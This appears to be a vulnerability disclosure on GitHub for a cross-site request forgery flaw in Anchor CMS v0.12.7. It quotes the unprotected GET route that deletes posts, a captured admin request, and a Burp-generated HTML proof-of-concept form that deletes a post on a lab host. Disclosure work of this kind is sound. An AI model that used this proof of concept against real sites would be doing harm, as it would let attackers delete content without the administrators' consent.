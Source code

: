 # anchorcms-0.12.7-CSRF
CSRF (Cross-site request forgery) Vulnerability discovered in Anchor CMS v0.12.7 and that can delete posts.

# Vulnerability Analysis  

Request interface for adding, deleting, modifying and checking posts in anchor/routes/posts.php.

let us see code it delete a posts. 
```
    /**
     * Delete post
     */
    Route::get('admin/posts/delete/(:num)', function ($id) {
        Post::find($id)->delete();
        Comment::where('post', '=', $id)->delete();

        Query::table(Base::table('post_meta'))
             ->where('post', '=', $id)
             ->delete();

        Notify::success(__('posts.deleted'));

        return Response::redirect('admin/posts');
    });
```
There is no check on token or referer and delete directly.

# Reproduce and PoC

1. Login in as a admin.
2. create some posts for deleteing
3. use brupsuite get a delete request packet
```
GET /admin/posts/delete/6 HTTP/1.1
Host: 192.168.1.89
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://192.168.1.89/admin/posts/edit/3
Cookie: anchorcms=ng848botkffiu4c1lrgbgo50ri
Upgrade-Insecure-Requests: 1

```

The request just delete a posts that id is 6. 

4. use brupsuite to generat a csrf PoC.
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.1.89/admin/posts/delete/6">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Then save the PoC code to a exploit.html, and click exploit.html to csrf attack.
![1](https://user-images.githubusercontent.com/11525772/154665895-36b7575d-368d-495c-830e-80fc17bc02c0.jpg)


click it to send a request and delete is successfly.
![1645180292(1)](https://user-images.githubusercontent.com/11525772/154665976-e329e3d5-b820-43fa-a9c3-d8dce7f085b1.jpg)

 


